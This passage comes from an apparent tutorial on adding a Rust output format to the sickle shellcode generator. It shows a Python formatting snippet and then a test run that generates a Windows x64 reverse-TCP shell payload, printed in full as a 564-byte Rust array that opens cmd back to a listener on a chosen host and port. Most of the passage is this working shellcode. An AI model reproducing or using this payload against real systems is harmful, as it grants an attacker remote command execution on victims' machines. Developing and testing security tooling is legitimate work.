Finally, we'll want to modify how the `results` variable is output. This will also vary depending on the target language.

```python
 61         for i in range(len(results)):
 62             snip = len(results[i]) - 1
 63             
 64             if ((i == (len(results)-1)) and single_line != True):
 65                 lines.append(results[i][:snip] + " ];")
 66             else:
 67                 lines.append(results[i])
```

If everything went well you should be able to generate a shellcode stub using the new format.

## Testing the Format

We're now ready to test the format, there are many ways to do this however I will be using the `windows/x64/shell_reverse_tcp` for this example.

```
$ sickle -p windows/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=1337 -f rust                   
// /usr/local/bin/sickle -p windows/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=1337 -f rust
// size: 564 bytes
static buf:[u8;564] = [
0x55,0x48,0x89,0xe5,0x48,0x81,0xec,0x20,0x01,0x00,0x00,0x48,0x83,0xe4,0xf0,
0xe8,0x7f,0x01,0x00,0x00,0x48,0x89,0xc7,0x48,0xba,0x8e,0x4e,0x0e,0xec,0x00,
0x00,0x00,0x00,0xe8,0xa0,0x01,0x00,0x00,0x48,0x89,0x45,0xf8,0x48,0xc7,0xc2,
0x72,0xfe,0xb3,0x16,0xe8,0x90,0x01,0x00,0x00,0x48,0x89,0x45,0xf0,0x48,0xc7,
0xc2,0x83,0xb9,0xb5,0x78,0xe8,0x80,0x01,0x00,0x00,0x48,0x89,0x45,0xe8,0x48,
0xb9,0x57,0x73,0x32,0x5f,0x33,0x32,0x2e,0x64,0x48,0x89,0x4d,0xb0,0x66,0xb9,
0x6c,0x6c,0x66,0x89,0x4d,0xb8,0x48,0x31,0xc9,0x88,0x4d,0xba,0x48,0x8d,0x4d,
0xb0,0x48,0x8b,0x45,0xf8,0xff,0xd0,0x48,0x89,0xc7,0x48,0xc7,0xc2,0xcb,0xed,
0xfc,0x3b,0xe8,0x47,0x01,0x00,0x00,0x48,0x89,0x45,0xe0,0x48,0xba,0xd9,0x09,
0xf5,0xad,0x00,0x00,0x00,0x00,0xe8,0x34,0x01,0x00,0x00,0x48,0x89,0x45,0xd8,
0x48,0xc7,0xc2,0xec,0xf9,0xaa,0x60,0xe8,0x24,0x01,0x00,0x00,0x48,0x89,0x45,
0xd0,0x48,0xc7,0xc1,0x02,0x02,0x00,0x00,0x48,0x8d,0x55,0xa8,0x48,0x8b,0x45,
0xe0,0xff,0xd0,0xb9,0x02,0x00,0x00,0x00,0xba,0x01,0x00,0x00,0x00,0x49,0xc7,
0xc0,0x06,0x00,0x00,0x00,0x4d,0x31,0xc9,0x4c,0x89,0x4c,0x24,0x20,0x4c,0x89,
0x4c,0x24,0x28,0x48,0x8b,0x45,0xd8,0xff,0xd0,0x48,0x89,0xc6,0x48,0x89,0xc1,
0x49,0xc7,0xc0,0x10,0x00,0x00,0x00,0x48,0x8d,0x55,0xa0,0x49,0xb9,0x02,0x00,
0x05,0x39,0x7f,0x00,0x00,0x01,0x4c,0x89,0x0a,0x4d,0x31,0xc9,0x4c,0x89,0x4a,
0x08,0x48,0x8b,0x45,0xd0,0xff,0xd0,0x48,0x8d,0xbd,0x38,0xff,0xff,0xff,0x48,
0x89,0xfb,0x31,0xc0,0xb9,0x1a,0x00,0x00,0x00,0xf3,0xab,0xb8,0x68,0x00,0x00,
0x00,0x89,0x03,0xb8,0x00,0x01,0x00,0x00,0x89,0x43,0x3c,0x48,0x89,0x73,0x50,
0x48,0x89,0x73,0x58,0x48,0x89,0x73,0x60,0x31,0xc9,0x48,0x89,0xea,0x48,0x8d,
0x95,0x30,0xff,0xff,0xff,0x48,0x31,0xc0,0xb8,0x63,0x6d,0x64,0x00,0x48,0x89,
0x02,0x4d,0x31,0xc0,0x4d,0x31,0xc9,0x31,0xc0,0xff,0xc0,0x48,0x89,0x44,0x24,
0x20,0xff,0xc8,0x48,0x89,0x44,0x24,0x28,0x48,0x89,0x44,0x24,0x30,0x48,0x89,
0x44,0x24,0x38,0x48,0x89,0x5c,0x24,0x40,0x48,0x8d,0x9d,0x28,0xff,0xff,0xff,
0x48,0x89,0x5c,0x24,0x48,0x48,0x8b,0x45,0xf0,0xff,0xd0,0x48,0x31,0xc9,0x48,
0xff,0xc9,0x48,0x31,0xd2,0x48,0x8b,0x45,0xe8,0xff,0xd0,0xc9,0xc3,0x55,0x48,
0x89,0xe5,0xb2,0x4b,0x48,0xc7,0xc1,0x60,0x00,0x00,0x00,0x65,0x4c,0x8b,0x01,
0x49,0x8b,0x78,0x18,0x48,0x8b,0x7f,0x10,0x48,0x31,0xc9,0x48,0x8b,0x47,0x30,
0x48,0x8b,0x77,0x60,0x48,0x8b,0x3f,0x66,0x39,0x4e,0x18,0x75,0xec,0x38,0x16,
0x75,0xe8,0xc9,0xc3,0x55,0x48,0x89,0xe5,0x8b,0x5f,0x3c,0x48,0x81,0xc3,0x88,
0x00,0x00,0x00,0x48,0x01,0xfb,0x8b,0x03,0x48,0x89,0xfb,0x48,0x01,0xc3,0x8b,
0x43,0x20,0x49,0x89,0xf8,0x49,0x01,0xc0,0x48,0x8b,0x4b,0x18,0x67,0xe3,0x43,
0xff,0xc9,0x41,0x8b,0x04,0x88,0x48,0x89,0xfe,0x48,0x01,0xc6,0x4d,0x31,0xc9,
0x48,0x31,0xc0,0xfc,0xac,0x84,0xc0,0x74,0x09,0x41,0xc1,0xc9,0x0d,0x49,0x01,
0xc1,0xeb,0xf2,0x41,0x39,0xd1,0x75,0xd7,0x44,0x8b,0x43,0x24,0x49,0x01,0xf8,
0x48,0x31,0xc0,0x66,0x41,0x8b,0x04,0x48,0x44,0x8b,0x43,0x1c,0x49,0x01,0xf8,
0x41,0x8b,0x04,0x80,0x48,0x01,0xf8,0xc9,0xc3 ];
```
